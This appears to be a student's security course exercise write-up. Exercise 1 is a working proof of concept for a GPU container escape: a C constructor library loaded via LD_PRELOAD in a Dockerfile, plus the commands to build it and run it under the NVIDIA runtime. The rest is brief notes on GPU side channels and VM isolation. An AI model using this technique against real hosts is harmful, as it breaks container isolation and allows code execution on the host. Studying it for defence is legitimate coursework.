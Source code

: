 # Exercise 1

poc.c file:

```c
#include <stdio.h>
#include <stdlib.h>

void __attribute__((constructor)) init() {
        FILE *fptr;

        // Open a file in writing mode
        fptr = fopen("/tmp/output-jord-sam.txt", "w");
        if (fptr == NULL)
                printf("The file is not opened.");
        else{
                fprintf(fptr, "user: jord-sam\n");
        }
        fclose(fptr);
}
```
Dockerfile:
```dockerfile
FROM busybox
ENV LD_PRELOAD=/proc/self/cwd/poc.so
ADD poc.so /
```
Commands:
```bash
$make poc.so
$docker build . -t nct-exploit-jord-sam
$docker run --rm --runtime=nvidia --gpus=all nct-exploit-jord-sam
$cat /tmp/output-jord-sam.txt
```

# Exercise 2.1

**Container GPU Issues: What security vulnerabilities might arise when GPUs 
are shared between containers or when containers have direct GPU access?**

- Context-switching timing penalties exfiltrates shared GPU operations from delays in 
obtaining requested resources
- MPS is off by default in cloud computing to allow for different priorities for 
processes, but that just slows down sampling (by orders of magnitude) but the side-channel
attack is still possible

**VM GPU Passthrough: What attack vectors are introduced when GPUs are passed 
through directly to virtual machines?**

- Directly = can read everything -> Seems bad (can just get information directly)
- Bad configs will let one VM read the other VM

**Isolation Concerns: How might GPU memory persistence, side-channel attacks, 
or privilege escalation differ between containerized and VM environments?**

![vm vs containerization](image.png)

- Shared GPUs are cheaper (allow multiple people to use them) but tradeoff with the
security risk
- There are services that only let you rent whole GPU (lambda labs allows for GPU 
sharing, vast ai doesn't) 
- VM means attacks need to go through the hypervisor so less prone to side-channel 
timing attacks but are vulnerable to lower-level hardware attacks
